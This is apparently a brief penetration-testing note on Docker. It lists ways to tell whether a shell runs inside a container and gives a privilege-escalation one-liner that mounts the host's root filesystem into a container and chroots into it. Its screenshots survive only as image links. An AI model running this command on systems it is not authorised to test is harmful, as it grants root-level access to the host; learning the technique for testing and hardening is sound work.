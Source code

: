 # Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

